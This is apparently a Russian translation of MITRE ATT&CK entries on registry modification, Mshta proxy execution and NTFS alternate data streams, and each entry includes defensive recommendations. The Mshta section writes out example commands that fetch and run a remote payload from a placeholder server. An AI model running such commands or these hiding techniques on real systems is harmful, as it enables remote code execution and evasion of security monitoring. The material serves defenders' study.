 ### [Модификация реестра (Modify Registry)](https://attack.mitre.org/wiki/Technique/T1112)

_Система:_ Windows  
_Права:_ Пользователь, администратор, system  
_Описание:_ Злоумышленники могут модифицировать реестр чтобы скрыть информацию в ключах реестра или удалить информацию в процессе зачистки следов вторжения или на других этапах атаки.

Доступ к определенным областям реестра зависит от разрешений учетной записи. Встроенная утилита Reg может использоваться как для локальной так и для удаленной модификации реестра. Могут быть использованы и другие инструменты удаленного доступа, которые взаимодействуют с реестром посредством Windows API.

Изменения реестра могут включать в себя действия по сокрытию ключей, например, с помощью добавления ключей с имененем из нулевого символа. Чтение такого ключа через Reg или API закончится ошибкой или будет проигнарировано. Злоумышленники могут испольовать такие скрытые псевдоключи, чтобы скрыть полезнубю нагрузку и команды, используемые в ходе закрепления в системе.

Реестр удаленной системы также может быть изменён, если в целевой системе активна служба Remote Regisry service. Как правило, злоумышленнику также необходимы действующие учетные данные, а также доступ к Windows Admin Shares для использования RPC.

_Рекомендации по защите:_ Неправильная настройка разрешений в реестре может привести к тому, что злоумышленник сможет выполнить произвольный код ([Service Registry Permissions Weakness](https://attack.mitre.org/wiki/Technique/T1058)). Убедитесь, что пользователи не могут изменять ключи системных компонентов. Заблокируйте ненужные системные утилиты и другое ПО, которое может быть использовано для изменения реестра. Рассмотрите возможность включения аудита реестра (Event ID4657), но имейте ввиду, что изменения реестра, выполненные с помощью таких средств как RegHide, не будут зарегистрированы службой сбора событий ОС.

### [Mshta](https://attack.mitre.org/wiki/Technique/T1170)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Mshta.exe (расположена в _C:\\Windows\\System32\_) — это утилита, которая выполняет приложения Microsoft HTML (*.HTA). HTA-приложения выполняются с использованием тех же технологий, которые использует InternetExplorer, но вне браузера. В связи с тем, что Mshta обрабатывает файлы в обход настроек безопасности браузера злоумышленники могут использовать mshta.exe для прокси-выполнения вредоносных HTA-файлов, Javascript или VBScript. Вредоносный файл можно запустить через встроенный скрипт:

_mshta vbscript:Close(Execute(«GetObject(»«script:https\[:\]//webserver/payload\[.\]sct»")"))_

или напрямую, по URL-адресу:

_mshta http\[:\]//webserver/payload\[.\]hta_

_Рекомендации по защите:_ Функциональность mshta.exe связана со старыми версиями IE, достигшими конца жизненного цикла. Блокируйте Mshta.exe, если не используете его функциональность.

### [NTFS-атрибуты файла (NTFS File Attributes)](https://attack.mitre.org/wiki/Technique/T1096)

_Система:_ Windows  
_Описание:_ NTFS-раздел содержит таблицу Master File Table (MFT), в которой хранятся данные о содержимом тома, строки соответствуют файлам, а столбцы их атрибутам, включая такие атрибуты, как Расширенные атрибуты (Extended attributes (EA) — строка размером 64кб) и Альтернативные потоки (Alternate Data Streams (ADS) — метаданные произвольного размера), которые могут использоваться для хранения любых данных. Злоумышленники могут хранить вредоносные данные и двоичные файлы в расширенных атрибутах и метаданных файлов. Эта техника позволяет обойти некоторые средства защиты, такие как инструменты сканирования на основе статичных индикаторов и некоторые антивирусные средства.
